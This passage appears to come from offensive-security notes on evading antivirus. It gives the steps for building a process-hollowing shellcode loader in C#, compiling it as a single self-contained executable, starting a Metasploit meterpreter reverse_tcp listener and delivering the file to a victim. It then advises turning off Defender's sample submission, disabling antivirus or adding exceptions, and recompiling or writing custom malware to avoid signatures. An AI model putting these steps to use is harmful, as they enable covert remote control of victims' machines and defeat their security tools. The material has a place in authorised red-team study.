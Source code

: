 ##### 3 - Process Hollowing
Use this C#.Net program:
https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Hollowing/Program.cs

Replace the byte array by your own encoded shellcode copied previously
If you had changed the encode key (`0xfa`) you have to put the same value here too.

Then build the malware:
```bash
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true
```

##### 4 - Start a listener
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 0.0.0.0; set lport <port>; exploit"
```

##### 5 - Deliver your malware to the victim and run it



### Test your malware
Do not drop your modified file into a [Virus Total](https://www.virustotal.com/gui/home/upload) type site as you'd be potentially alterting AV prior your engagement, but you should validate with local instance of AV to make sure they don't trigger any signature (remember to disable the "automatic sending of samples" on microsoft defender : “Windows Security” app from the Start Menu. Go to Virus & threat protection > Manage settings. Then, disable Automatic Sample Submission by its toggle)
Or you can use : https://antiscan.me/


### Post exploitation
- You can take a look at the "**Fully Undetectable Payload**" (FUD), for example
https://www.neushield.com/learn/fully-undetectable-fud/
- We can stop and disable the Anti-virus or create an exception (see [[Disable windows defender]])
- Use whitelisted / allowed softwares (like winrm, rdp, vnc, ssh) instead of your payload
- Use python instead ! because it is very often allowed and easily tamperable


## Conclusion
The easy way to go:
- To simplify your life it is sometimes possible to deactivate the antivirus before running the program
- Modify the source files as much as possible
- Manually encode the shellcode
- Implement your own malware

As said in this [video](https://www.youtube.com/watch?v=2H_1ZkZ83gI) (7:45min) all the tools like Veil, Shellter, Metasploit, Encoders, Crypters, etc... Are very easy to use and are automatic.
But due to this automation, the malwares generated are similar and their signatures have been spotted for a long time.
If you really want to bypass AVs, you have to tamper and recompile an existing malware, or code your own as [Ippsec](https://www.youtube.com/watch?v=9pwMCHlNma4) or [Processus Thief](https://www.youtube.com/watch?v=rAr7uhKi2_k)

